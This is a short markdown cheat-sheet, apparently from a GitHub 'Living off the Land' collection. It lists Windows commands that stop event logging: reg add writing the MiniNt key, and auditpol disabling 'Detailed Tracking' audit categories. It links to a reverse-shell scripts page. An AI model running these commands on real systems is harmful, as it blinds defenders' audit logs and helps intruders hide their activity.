 # Living off the Land

- Suspend Event Viewer from generating logs

```
C:\> reg add "[\\<IP>\]hklm\system\currentcontrolset\control\MiniNt"

C:\> reg add "[\\<IP>\]hkey_local_machine\system\currentcontrolset\control\MiniNt"
```

```
C:\> auditpol /get /category:"Detailed Tracking"

C:\> auditpol /set /category:"Detailed Tracking" /success:disable /failure:disable

C:\> auditpol /set /category:"Detailed Tracking" /success:enable /failure:enable
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)